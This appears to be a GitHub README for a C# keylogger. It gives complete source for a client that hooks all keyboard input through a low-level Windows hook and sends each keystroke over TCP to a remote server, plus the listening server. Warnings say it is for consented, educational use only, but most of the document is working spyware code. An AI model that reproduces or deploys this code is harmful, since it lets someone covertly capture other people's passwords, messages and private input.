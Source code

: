 # 🥷🏻 Keylogger in Csharp
This project consists of two parts: KeyloggerServer and KeyloggerClient. The KeyloggerServer listens for key logs sent from the KeyloggerClient and prints them to the console. The KeyloggerClient captures keystrokes on the host machine and sends them to the server.

### Introduction
The KeyloggerServer and KeyloggerClient projects demonstrate a simple implementation of a keylogger and a corresponding server to capture keystrokes remotely. This setup is intended for educational purposes to understand the mechanics of keylogging and network communication in C#.

## Warning: Unauthorized use of keyloggers to capture keystrokes from systems without consent is illegal and unethical. This project should only be used in environments where you have explicit permission to do so, such as your own devices for educational or testing purposes.

## Project Structure
### KeyloggerProject

```
│
├─── KeyloggerServer
│    ├── Program.cs
│    ├── .vscode
│    │   ├── launch.json
│    │   ├── tasks.json
│    ├── KeyloggerServer.csproj
│
└─── KeyloggerClient
     ├── Program.cs
     ├── Keylogger.cs
     ├── .vscode
     │   ├── launch.json
     │   ├── tasks.json
     ├── KeyloggerClient.csproj
```

## Getting Started
### Prerequisites
- .NET SDK (version 6.0 or higher)
- Visual Studio Code with the C# extension installed

## Technical Details
### KeyloggerServer
The server is a simple TCP listener that waits for incoming connections on port 5000. When a connection is received, it reads the data, interprets it as a keystroke, and prints it to the console.

### Program.cs:
```csharp
using System;
using System.Net;
using System.Net.Sockets;
using System.Text;

class Server
{
    static void Main()
    {
        TcpListener server = new TcpListener(IPAddress.Any, 5000);
        server.Start();
        Console.WriteLine("Server started...");

        while (true)
        {
            TcpClient client = server.AcceptTcpClient();
            NetworkStream stream = client.GetStream();

            byte[] buffer = new byte[1024];
            int bytesRead = stream.Read(buffer, 0, buffer.Length);
            string message = Encoding.ASCII.GetString(buffer, 0, bytesRead);
            Console.WriteLine("Received: " + message);

            client.Close();
        }
    }
}
```

### KeyloggerClient
The client sets a low-level keyboard hook to capture all keystrokes. Captured keystrokes are sent to the server over a TCP connection.

### Program.cs:

```csharp
using System;
using System.Windows.Forms;

namespace KeyloggerClient
{
    static class Program
    {
        [STAThread]
        static void Main()
        {
            Application.EnableVisualStyles();
            Application.SetCompatibleTextRenderingDefault(false);
            Keylogger.Start();
            Application.Run();
        }
    }
}
```

### Keylogger.cs:

```csharp
using System;
using System.Diagnostics;
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace KeyloggerClient
{
    static class Keylogger
    {
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static LowLevelKeyboardProc _proc = HookCallback;
        private static IntPtr _hookID = IntPtr.Zero;

        public static void Start()
        {
            _hookID = SetHook(_proc);
            Application.ApplicationExit += (sender, e) => UnhookWindowsHookEx(_hookID);
        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc)
        {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule)
            {
                return SetWindowsHookEx(WH_KEYBOARD_LL, proc, GetModuleHandle(curModule.ModuleName), 0);
            }
        }

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam)
        {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN)
            {
                int vkCode = Marshal.ReadInt32(lParam);
                string key = ((Keys)vkCode).ToString();
                SendKeyToServer(key);
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }

        private static void SendKeyToServer(string key)
        {
            try
            {
                using (TcpClient client = new TcpClient("server-ip-address", 5000)) // Use the server's IP address
                using (NetworkStream stream = client.GetStream())
                {
                    byte[] data = System.Text.Encoding.ASCII.GetBytes(key);
                    stream.Write(data, 0, data.Length);
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine("Exception: " + ex.Message);
            }
        }

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr GetModuleHandle(string lpModuleName);
    }
}
```

### Security Considerations
- Ethical Use: Ensure you have explicit permission to use keylogging software on any device. Unauthorized use is illegal and unethical.
- Data Privacy: Keylogging software can capture sensitive information. Handle all captured data securely and ensure it is protected from unauthorized access.
- Network Security: Use secure communication channels if deploying over the internet to avoid interception of keystrokes. 
